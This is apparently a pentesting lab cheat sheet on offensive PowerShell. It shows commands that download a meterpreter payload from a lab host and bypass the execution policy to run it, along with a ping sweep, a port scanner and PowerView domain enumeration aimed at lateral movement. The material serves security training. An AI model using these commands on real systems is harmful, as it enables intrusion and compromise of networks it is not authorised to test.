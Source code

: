 # Powershell for Pentesters

## Manipulating Files

```powershell
# Start the notepad app
Start-Process notepad.exe

Get-Process -name notepad

# Export the process information to the csv format
Get-Process | Export-Csv running_process.csv

# Copy-Item , Move-Item
Copy-Item .\IP.txt copy_IP.txt

# Get file Hash
Get-FileHash -Algorithm SHA256 .\IP.txt
```

## Downloading Files

```powershell
# First Way
(New-Object System.Net.WebClient).Downloadfile('http://10.0.2.8:8888/meterpreter-64.ps1', 'meterpreter.ps1')

# Second Way
Invoke-WebRequest 'http://10.0.2.8:8888/meterpreter-64.ps1' -OutFile "meterpreter.ps1"
```

To get Execution policy we can run `Get-ExecutionPolicy -list`.

Execution policies can have seven different values;

- AllSigned: Scripts can run but require all scripts to be signed by a trusted publisher.

- Bypass: All scripts can run, and no warnings or prompts will be displayed.

- Default: This refers to “restricted” for Windows clients and “RemoteSigned” for Windows servers.

- RemoteSigned: Scripts can run, and this does not require local scripts to be digitally signed.

- Restricted: The default configuration for Windows clients. Allows individual commands to run, does not allow scripts.

- Undefined: This shows that no specific execution policy was set. This means default execution policies will be enforced.

- Unrestricted: Most scripts will run.

To by pass the ExecutionPolicy we can run
```powershell
# First way
powershell -ExectionPolicy Bypass -File .\meterpreter.ps1

# Second way: -scope make only be able run for current powershell session
Set-ExecutionPolicy Bypass -scope Process
```

## System Reconnaissance

`Get-HotFix` enumerate already installed patches. 

```powershell
# This will Grep for all that have InstallOn.
Get-HotFix | Format-list | findstr InstalledOn

Get-HotFix | Format-Table HotFixID
```

`Format-List` can be used to gather more information about objects.


The `Out-File` can be used to save the output to a file for further use.

```powershell
Get-HotFix | Out-File hotfix.txt
```

What Windows Security Update was installed on 5/15/2019?
Get-HotFix | Format-Table | findstr 5/15/2019

## Network Reconnaissance 

Following command can be used for ping a given IP range and grep for lines that include the "TTL" string. 

```powershell
1..15 | %{echo "10.0.2.$_"; ping -n 1 10.0.2.$_ | Select-String ttl}
```

This command check For all 1024 ports to see if is open or not.

```powershell
1..1024 | %{echo ((New-Object Net.Sockets.TcpClient).Connect("10.0.2.8", $_)) "open port on - $_"} 2>$null
```

## Using PowerView


Gather information about domain with the help of [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1).
To import `Import-Module .\powerview.ps1`.

`Get-NetDomainController` command will collect information on the domain controller. Knowing the IP address of the domain controller will be useful to
conduct man-in-the-middle attacks and to focus our efforts on high-value targets. 

`Get-NetUser` will list of domain users. 
```powershell 
Get-NetUser | out-gridview

# Values for a specific property can be listed. For example, if we wanted to list users' last logon dates and times we could use the "Get-NetUser | select -ExpandProperty lastlogon" command. 
Get-NetUser | select -ExpandProperty lastlogon
```

### Get-NetComputer

This command is useful to enumerate systems connected to the domain. This command can also be used with the “-ping” parameter to enumerate the systems that are currently online.
```powershell
Get-NetComputer -ping
```
In the instacetype shows how many system currently online.

### Get-NetGroup

Some accounts can be members of important groups, such as domain admins. Knowing which accounts have useful privileges or are a member of groups of interest will be useful for lateral movement and privilege escalation. The `Get-NetGroup` command will help us enumerate existing groups.
```powershell
Get-NetGroup "Domain Admins"
```

### Finding shares


`Find-DomainShare` will list available shares. Please note we have added the `-CheckShareAccess` option to list only readable shares.
```powershell
Find-DomainShare -CheckShareAccess 
```


### Enumerate Group Policy

Group Policy is used to configure computers connected to the domain. The `Get-NetGPO` command will gather information on enforced policies. 


### User Enumeration

Knowing which systems the current user can access with local administrator privileges can facilitate lateral movement. The `Find-LocalAdminAccess` command will list systems in the domain you may access as a local administrator.

The good source of powerview can be found [here](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)

 One of the accounts has a special description; what is it?
 ```powershell
 Get-NetUser -Properties description
 ```

 How many accounts are disabled?
 ```powershell
 Get-NetUser -Properties useraccountcontrol | findstr ACCOUNTDISABLE | measure
 ```

 How many users are in the “domain admins” group?
 ```powershell
 Get-NetGroupMember “Domain Admins” | measure
 ```

Which users are in the "domain admins" group? (Listed alphabetically, small, comma-separated, using space) 
```powershell
Get-NetGroupMember “Domain Admins” | Sort-Object MemberName | Format-Table MemberName
```

List shares; what is the name of the "interesting" share?
```powershell
Find-DomainShare
```

What is the name of the user-created Group Policy?
```powershell
Get-NetGPO -Properties displayname
```

What are the first names of users' whose accounts were disabled? (Sorted alphabetically, small, comma-separated, using space)
```powershell
Get-NetUser | Sort-Object displayname | Where-Object {$_.useraccountcontrol -like “*ACCOUNTDISABLE*”} | Select-Object -property displayname
```

